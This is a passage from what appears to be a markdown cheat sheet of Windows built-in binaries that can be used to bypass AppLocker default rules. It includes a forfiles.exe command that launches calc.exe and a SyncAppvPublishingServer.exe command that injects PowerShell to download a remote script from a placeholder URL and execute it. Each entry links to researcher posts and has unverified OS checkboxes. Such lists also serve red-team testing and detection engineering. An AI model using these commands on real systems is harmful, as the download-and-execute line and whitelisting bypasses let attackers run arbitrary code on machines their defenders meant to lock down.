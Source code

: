 Notes: Requires registry keys for com object.

* Links:
  * https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  * https://www.youtube.com/watch?v=3gz1QmiMhss
   
   
   
## forfiles.exe

```
forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT  

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:

* Links:
  * https://twitter.com/vector_sec/status/896049052642533376
   
   
   
## SyncAppvPublishingServer.exe

```
SyncAppvPublishingServer.exe "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT  

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:

* Links:
  * https://twitter.com/monoxgas/status/895045566090010624
   